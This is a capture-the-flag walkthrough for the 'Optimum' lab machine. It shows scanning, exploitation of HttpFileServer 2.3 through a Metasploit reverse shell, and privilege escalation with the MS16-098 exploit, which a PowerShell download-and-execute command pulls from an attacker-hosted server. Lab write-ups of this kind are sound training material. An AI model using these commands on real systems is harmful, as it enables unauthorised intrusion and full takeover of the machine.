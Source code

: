 # Optimum

This is the write-up for the machine called Optimum.

## Scanning & Enumeration

Let'a start with an nmap scan:

```markdown
nmap -T4 -A -p- 10.10.10.8
```

Relevant results of the scan:

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP 

The machine is a Windows machine with HTTP port 80 open. Th web page has an application called **HttpFileServer 2.3**.
After googling this, we get to know that it is a Rejetto HTTP File Server and the HttpFileServer 2.3 is vulnerable to a Remote Code Execution.
We can also search with searchsploit:

```markdown
searchsploit rejetto
```

We can use the **Metasploit** module **exploit/windows/http/rejetto_hfs_exec** to exploit the vulnerability. 
We can configure RHOSTS, LHOST, LPORT, and set the payload to **payload/windows/x64/meterpreter/reverse_tcp** and run the exploit.
After running the exploit, a meterpreter shell will open and we will be user **kostas** on the machine.

## Privilege Escalation by manual exploitation

We can look up exploits for the machine running a Windows Server 2012 R2 9600 OS on metasploit but the exploit listed sometimes does not work.
We will exploit this machine manually.
To do so, download the [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester.git) on your machine and run the following commands:

```markdown
pip install xlrd --upgrade
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2019-10-05-mssb.xls --systeminfo sysinfo.txt
```

Windows Exploit Suggester lists down a couple of exploits but we will use the MS16-098 exploit.
[exploit-db](https://www.exploit-db.com) has a binary file of the exploit that we can download on our machine and then transfer it to Optimum.

Run the following commands on your machine:

```markdown
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
python -m SimpleHTTPServer 9000
```

We are hosting the binary file on our machine, we can find it on <your_ip>:9000

Run the following commands on Optimum after navigating to a folder that you have write access to:
```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<your_ip>:9000/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
41020.exe
```

After the execution, we will be **NT Authority\SYSTEM** on Optimum.
